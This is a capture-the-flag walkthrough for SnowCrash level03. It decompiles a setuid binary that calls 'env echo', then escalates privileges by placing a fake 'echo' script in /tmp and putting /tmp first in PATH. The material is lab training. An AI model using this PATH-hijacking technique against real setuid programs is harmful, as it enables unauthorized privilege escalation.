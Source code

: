 ## 1. Connect to level03:

```bash
level02@SnowCrash:~$ su level03
password: *use previously found flag*
```

## 2. See existing files:

```bash
level03@SnowCrash:~$ ls -l
    total 12
	-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

## 3. Locally download the file (on local computer terminal, not VM):

```bash
level02@SnowCrash:~$ scp -P 4242 level03@192.168.56.102:/home/user/level03/level03 ~
```

## 4. Use *`Ghidra`* application to convert file into readable code
### Once open, look to the left, *Symbol Tree* > *Functions* > *main*
### Look at the main and find the line

```bash
iVar1 = system("/usr/bin/env echo Exploit me");
```

## 5. Write and execute bash script that will transform the `echo` command into `getflag` command (in the VM)

```bash
# Create script file in /tmp because it is the only directory in which we have creation/edition/deletion rights
cd /tmp
touch echo echo.sh

# Write the cript into echo.sh:
echo '#!/bin/bash' > /tmp/echo
echo 'getflag' >> /tmp/echo

# Give yourself the rights
chmod +x /tmp/echo

# Add `/tmp` at the beginning of PATH
export PATH="/tmp:$PATH"

# Execute `level03` binary file
./../home/user/level03/level03

# Make the script executable
chmod +x echo.sh

# Launch the script
./echo.sh
```

The program uses the `env` command, which searches for the `echo` command in the `PATH` variable. By placing your directory (`/tmp`) at the beginning of `PATH`, your version of `echo` is found first. As a result, the program executes your script instead of the system command.